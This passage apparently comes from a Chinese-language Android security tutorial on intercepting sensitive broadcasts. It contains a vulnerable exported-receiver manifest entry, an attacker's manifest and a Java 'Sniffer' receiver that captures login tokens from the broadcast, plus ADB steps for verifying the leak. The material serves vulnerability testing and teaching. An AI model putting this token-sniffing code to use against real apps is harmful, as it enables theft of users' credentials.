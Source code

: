 Manifest 中未限制导出：  
```
<receiver android:name=".SensitiveReceiver" android:exported="true">    <intent-filter>        <action android:name="com.app.LOGIN_RESULT" />    </intent-filter></receiver>
```  
- 如果广播接收器本身导出（exported=true  
），意味着其他App也能发送该广播，增加风险。  
  
##### 👾 攻击者需要做什么？  
- 攻击者需要写一个**恶意App**  
，并安装到目标设备上。  
  
- 恶意App在AndroidManifest.xml  
中声明与目标App广播相同的action  
，并注册对应的BroadcastReceiver  
来监听广播。  
  
攻击者的AndroidManifest.xml  
：  
```
<receiver android:name=".Sniffer" android:exported="true">    <intent-filter>        <action android:name="com.app.LOGIN_RESULT"/>    </intent-filter></receiver>
```  
  
攻击者的监听器代码：  
```
public class Sniffer extends BroadcastReceiver{@Overridepublic void onReceive(Context context, Intent intent){        String leakedToken = intent.getStringExtra("token");        Log.d("LeakedToken", "获取到的Token: " + leakedToken);// 这里可以将数据上传到服务器或做其他恶意操作    }}
```  
##### 📱 是否可以通过 ADB 验证？  
- **不完全可以。**  
  
因为信息泄露需要**安装恶意App来注册监听广播**  
，普通的adb shell am broadcast  
只能模拟发送广播，无法直接模拟监听行为。  
  
但你可以用ADB检查目标App发送的广播：  
```
adb shell dumpsys activity broadcasts
```  
- 该命令可查看当前系统广播队列，但不能直接看到广播内容和接收者。  
  
要验证监听效果，必须：  
1. 编写一个简单监听广播的App（上面攻击者代码示例）。  
  
1. 安装到设备上。  
  
1. 运行目标App发送广播。  
  
1. 在监听App中观察日志（通过adb logcat  
）确认是否接收到敏感数据。  
  
##### 📌 特殊适用条件：  
- **目标App通过普通sendBroadcast发送广播**  
，**且未设置接收权限**  
。  
  